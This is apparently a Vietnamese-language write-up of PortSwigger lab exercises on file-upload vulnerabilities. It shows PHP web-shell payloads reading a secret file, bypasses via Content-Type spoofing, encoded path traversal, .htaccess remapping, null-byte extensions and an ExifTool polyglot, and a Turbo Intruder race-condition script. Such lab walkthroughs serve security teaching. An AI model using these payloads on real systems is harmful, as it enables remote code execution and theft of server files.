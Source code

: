 # 1. Remote code execution via web shell upload
Ta thấy chức năng upload avatar cho phép ta upload bất kì loại file nào. Như vậy ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau khi upload file, ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret đã được hiển thị:

![image](https://user-images.githubusercontent.com/103978452/202854734-8fa1c18b-4117-4a3c-b75e-547b67b16588.png)

# 2. Web shell upload via Content-Type restriction bypass
Khi upload file có đuôi .php thì website trả về lỗi, thông báo rằng chỉ cho phép uplaod file với MIME type image/jpeg hoặc image/png.

Ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi thay đổi Content-Type từ `application/x-php` thành `image/jpeg` rồi submit (sử dụng Burp Repeater)

Kết quả thành công. Ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202857559-21ced5bd-38e0-47f0-a627-0b64162b40f7.png)

# 3. Web shell upload via path traversal
Ta thử upload file payload.php với nội dung
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi truy cập `/files/avatars/payload.php` thì thấy nội dung file được hiển thị thay vì được execute. Ta sẽ thử upload file payload.php vào các folder khác sử dụng kĩ thuật directory traversal.

Trong tab Repeater của BurpSuite, ta thấy POST request đến `/my-account/avatar` có nội dung như sau:

![image](https://user-images.githubusercontent.com/103978452/202960724-6834b606-d122-43ba-8f10-b716b5a1f5f9.png)

Thay đổi `filename="../payload.php"`, kết quả trả về `The file avatars/payload.php has been uploaded`. Thử với các relative path, absolute path khác cũng có kết quả tương tự. Như vậy có thể server lọc ra filename trước rồi mới upload.

Thử dùng URL encode, thay `filename="%2E%2E%2F%70%61%79%6C%6F%61%64%2E%70%68%70"` (tương ứng `payload="../payload.php` sau khi decode) thì thấy kết quả trả về thành công

![image](https://user-images.githubusercontent.com/103978452/202961066-81908b20-efee-4af1-8076-2c0754a00c5b.png)

Truy cập `/files/payload.php`, ta thấy đoạn code được execute và trả về nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/202961174-fed4b7c5-a005-4096-b909-b56917ff110d.png)

# 4. Web shell upload via extension blacklist bypass
Ta thấy server đã chặn các file có đuôi .php. Thử sử dụng các kỹ thuật để obfuscate file extension, kết quả không thành công

Ta thử bypass bằng cách upload file `.htaccess` với nội dung:
```
AddType application/x-httpd-php .jpg
```
File này sẽ cấu hình server cho phép chạy các file có đuôi .jpg như một file php

![image](https://user-images.githubusercontent.com/103978452/203673325-04ed4e21-1fcb-466d-b8a7-13d0386969ac.png)

Kết quả upload file thành công. Ta tiếp tục upload file `payload.jpg` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Sau đó truy cập `/files/avatars/payload.jpg`, kết quả thu được nội dung file cần tìm.

![image](https://user-images.githubusercontent.com/103978452/203673682-3cca7ead-61ec-48b3-954c-9212adc7ea37.png)

# 5. Web shell upload via obfuscated file extension
Ta upload file `payload.php` với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
thì server trả về thông báo lỗi: "Sorry, only JPG & PNG files are allowed"

Ta thay đổi filename thành `payload.php%00.jpg` rồi submit, kết quả thành công.

Truy cập `/files/avatars/payload.php` thu được nội dung file cần tìm

![image](https://user-images.githubusercontent.com/103978452/203674340-7274dfef-a47e-4a9d-82c6-3e832485c6c6.png)

# 6. Remote code execution via polyglot web shell upload
Ta upload file `payload.php` thì thấy server trả về `Error: file is not a valid image`.

Dùng ExifTool để chèn một đoạn php vào trong file image `naruto.jpg` với lệnh:
```
exiftool -DocumentName="<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); ?>" naruto.jpg
```
Sau đó đổi tên file thành `naruto.php` và upload lên website. Kết quả trả về thành công. Dùng BurpSuite để bắt request, ta thấy trong nội dung file có chứa đoạn code đã được inject

![image](https://user-images.githubusercontent.com/103978452/203678647-73fc07b3-f7f7-43df-99c5-e64a5bbbf57d.png)

Thử truy cập `/files/avatars/naruto.php` thì server trả về lỗi `500 Internal Server Error`. Như vậy có khả năng trong phần thân image có các kí tự đặc biệt như `<?` khiến cho đoạn code bị lỗi. Ta dùng lệnh `__halt_compiler() ?>` để các đoạn code bên dưới không được execute. Như vậy injected code sẽ là:
```
<h1>HELLO</h1><?php echo file_get_contents('/home/carlos/secret'); __halt_compiler();
```
Sau khi upload, truy cập `/files.avatars/naruto.php`, kết quả trả về nội dung file mong muốn.

![image](https://user-images.githubusercontent.com/103978452/203678976-af5de655-ed73-404e-a818-fb4515bea3ca.png)

# 6. Web shell upload via race condition

![image](https://user-images.githubusercontent.com/103978452/203904330-baaa8f18-b26b-48c4-b2f7-af3e92df0bbc.png)

```
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10
                           )

    request1 = ""\
    "POST /my-account/avatar HTTP/1.1\r\n"\
    "Host: 0a38005f043e0b4fc00810a800d10038.web-security-academy.net\r\n"\
    "Cookie: session=ySDNtxlS5Wf6y787ddzTzA37th5v6ZJa\r\n"\
    "Content-Length: 470\r\n"\
    "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Connection: close\r\n"\
    "\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"avatar\"; filename=\"payload.php\"\r\n"\
    "Content-Type: application/x-php\r\n"\
    "\r\n"\
    "<?php\r\n"\
    "echo file_get_contents('/home/carlos/secret');\r\n"\
    "?>\r\n"\
    "\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"user\"\r\n"\
    "\r\n"\
    "wiener\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG\r\n"\
    "Content-Disposition: form-data; name=\"csrf\"\r\n"\
    "\r\n"\
    "QqXQoJAoGQxRfzIRVavqp4OP9zsCom7V\r\n"\
    "------WebKitFormBoundaryCsL5cCjpW6YxOEmG--\r\n\r\n\r"

    request2 = ""\
    "GET /files/avatars/payload.php HTTP/1.1\r\n"\
    "Host: 0a38005f043e0b4fc00810a800d10038.web-security-academy.net\r\n"\
    "Cookie: session=ySDNtxlS5Wf6y787ddzTzA37th5v6ZJa\r\n"\
    "Connection: close\r\n\r\n"

    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race2')

    engine.openGate('race1')
    engine.openGate('race2')
    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
